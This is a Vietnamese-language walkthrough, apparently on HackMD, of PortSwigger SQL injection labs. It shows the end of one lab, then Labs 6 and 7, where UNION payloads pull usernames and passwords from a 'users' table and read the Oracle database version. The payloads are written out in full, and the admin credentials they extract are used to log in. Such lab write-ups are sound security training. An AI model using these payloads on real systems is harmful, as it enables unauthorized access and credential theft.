 Dùng UNION để tấn công: chèn thêm lệnh `'+UNION+SELECT+username,password+FROM+users--`

Ta tìm thấy tài khoản admin
![](https://hackmd.io/_uploads/B1rulQCZa.png)

Giờ thì login vào thui
![](https://hackmd.io/_uploads/B1qhlXCbT.png)
Done!

# Lab 6: SQL injection UNION attack, retrieving multiple values in a single column
![](https://hackmd.io/_uploads/B11vX7AW6.png)
Lab yêu cầu đưa ra tất cả giá trị trong bảng `users`

Đầu tiên, xác định số cột truy vấn 
![](https://hackmd.io/_uploads/Hyx3rmAWa.png)

Bước 2, xác định cột nào là định dạng string
![](https://hackmd.io/_uploads/Sy8yUQR-6.png)
Vì chỉ có 1 cột là dạng chuỗi nên

Bước 3, ghép 2 giá trị `username` và `password` vào cột thứ 2 bằng cách chèn thêm `||'~'||`
Câu lệnh lúc này là
`'UNION+SELECT+NULL,username||'~'||password+FROM+users--`
![](https://hackmd.io/_uploads/HJxBQIXRZa.png)

Đem tài khoản và mật khẩu admin login vào
![](https://hackmd.io/_uploads/rJOK87AWp.png)
Done!

# Lab 7: SQL injection attack, querying the database type and version on Oracle
![](https://hackmd.io/_uploads/H1TMgLsfp.png)
Lab yêu cầu tấn công UNION để xác định phiên bản database 

Ta có [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) sau
![](https://hackmd.io/_uploads/r1OAu4jz6.png)

Đầu tiên, xác định số cột select, vì là `Oracle` nên phải `FROM` từ một bảng xác định, bảng này được gọi là `dual`
![](https://hackmd.io/_uploads/B1e9Ewofp.png)

Xác định cột nào là định dạng string
![](https://hackmd.io/_uploads/Skr4HwofT.png)

Payload câu lệnh tương ứng với `Oracle`
```sql
'+UNION+SELECT+banner,+NULL+FROM+v$version--
```
![](https://hackmd.io/_uploads/B1ryLvszT.png)
Done!
